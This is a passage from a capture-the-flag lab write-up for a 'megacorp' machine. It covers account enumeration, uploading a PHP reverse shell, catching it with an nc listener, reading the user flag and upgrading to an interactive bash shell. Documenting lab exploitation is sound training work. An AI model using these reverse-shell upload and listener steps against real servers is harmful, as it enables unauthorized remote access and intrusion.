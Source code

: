 - Use [script](./scripts/account_find.py) to find accounts **X**

<pre>
Found at id:    30
Account ID:     86575
Name:           super admin
Email:          superadmin@megacorp.com
</pre>

- upload [reverse shell php](https://github.com/pentestmonkey/php-reverse-shell) to server within super admin

- use nc -lvnp port to listen reverse shell file to connect
as http://10.10.10.28/uploads/[revshell.php](./scripts/revshell.php)

> whoami

<pre>
www-data
</pre>

> id
<pre>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

- find user.txt in robert home

<pre>
user.txt
f2c74ee8db7983851ab2a96a44eb7981
</pre>

- get a better (interactive) bash use

> /usr/bin/script -qc /bin/bash /dev/null

or

> SHELL=/bin/bash /usr/bin/script -q /dev/null

## script help

<pre>
-a, --append                  append the output
-c, --command <command>       run command rather than interactive shell
-e, --return                  return exit code of the child process
-f, --flush                   run flush after each write
    --force                   use output file even when it is a link
-q, --quiet                   be quiet
-t[<file>], --timing[=<file>] output timing data to stderr or to FILE
-h, --help                    display this help
-V, --version                 display version
</pre>

## Get db.php content
